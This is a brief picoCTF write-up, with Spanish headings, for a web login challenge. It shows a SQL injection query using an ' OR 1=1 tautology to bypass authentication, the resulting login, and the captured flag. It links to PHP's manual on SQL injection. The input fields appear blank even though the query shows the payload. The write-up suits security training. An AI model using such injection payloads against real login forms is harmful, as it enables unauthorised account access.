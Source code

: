 ## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/39720/` ([link](https://jupiter.challenges.picoctf.org/problem/39720/)) or http://jupiter.challenges.picoctf.org:39720. Do you think you can log us in? Try to see if you can login!
## Solución
```
username: 
password: 
SQL query: SELECT * FROM users WHERE name='' OR 1=1'; AND password=''

# Logged in!

Your flag is: picoCTF{s0m3_SQL_c218b685}
```
## Notas adicionales

## Referencias
+ [PHP: Inyección de SQL - Manual](https://www.php.net/manual/es/security.database.sql-injection.php)